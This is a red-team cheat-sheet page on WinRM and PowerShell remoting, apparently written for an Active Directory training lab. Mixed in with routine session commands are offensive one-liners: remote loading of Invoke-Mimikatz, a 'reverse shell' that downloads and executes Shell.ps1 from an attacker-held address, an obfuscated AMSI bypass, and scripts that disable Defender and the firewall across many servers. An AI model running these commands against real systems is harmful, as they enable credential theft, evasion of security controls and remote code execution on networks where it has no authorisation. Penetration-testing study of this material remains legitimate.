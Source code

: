 # WinRM

WinRM stands for Windows Remote Management that allows to perform management tasks on systems remotely, WinRM is available if the port is opened.

WinRM Ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

## Enumeration

Find machines with PS Session

[#user-hunting](../ad-enumeration/gnereral.md#user-hunting "mention")

## PS Session

{% hint style="info" %}
PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
{% endhint %}

Enable PowerShell Remoting on local system (Requires elevated privileges)

```powershell
Enable-PSRemoting
```

#### Create a session

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Enter existing session

<pre class="language-powershell"><code class="lang-powershell"><strong>Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
</strong>
# Using session object
Enter-PSSession -Session $sess
</code></pre>



## Invoke-Command

<pre class="language-powershell"><code class="lang-powershell"># test remoting connection
Invoke-Command -Session $Session -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
<strong>
</strong># Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}
Invoke-Command -Session $Session -FilePath -ScriptBlock ${Function:Test-Function}

# Load script
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
<strong>Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
</strong><strong>
</strong><strong># Multiple connections
</strong><strong>Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content &#x3C;list_of_servers>) 
</strong></code></pre>

#### Useful script blocks

```powershell
# Language Mode
Invoke-Command -ComputerName <target> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

# Turns off Defender and Firewall on multiple systems
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## Winrs

```powershell
winrs -r:dcorp-mgmt 'whoami & hostname'
winrs -r:server1 -u:server1\administrator -p:Pass@1234 'hostname' # With creds
```

